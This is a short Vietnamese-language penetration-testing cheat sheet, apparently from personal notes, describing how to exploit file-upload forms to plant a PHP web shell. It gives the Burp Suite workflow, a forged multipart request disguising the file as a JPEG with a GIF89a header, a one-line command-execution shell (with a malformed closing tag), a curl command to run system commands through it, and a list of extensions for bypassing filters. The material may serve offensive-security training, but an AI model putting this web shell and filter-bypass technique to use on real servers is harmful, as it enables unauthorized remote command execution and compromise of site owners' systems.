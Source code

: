 > [!important] **Upload Shell**
# Quy trình
Xác định upload ⇒ Burp Suite ⇒ Upload shell (trước đó nên gửi request POST là các định dạng không bị filter) ⇒ Quan sát respond ⇒ Bị filter thì đổi đuôi file ⇒
```Bash
curl "http://example.com/uploads/shell.phtml?cmd=id"
```
⇒ Thành công thì có thể ls, cat, cd, … (nhớ dùng Burp Suite để gửi respond theo chuẩn URL, không space)
---
# Chỉnh sửa request
```PHP
Content-Length: \#Để trống để Burp Suite tự gán
Content-Disposition: form-data; name = "input_image"; filename = "shell.phtml"
Content-Type: image/jpeg
```
```PHP
\#Nội dung payload
GIF89a \#Có thể có hoặc không
<?php system($_GET['cmd']); >
```
> **Các đuôi**: .phtml, .pHp, .phar, .php5, .php7, .php.jpg, …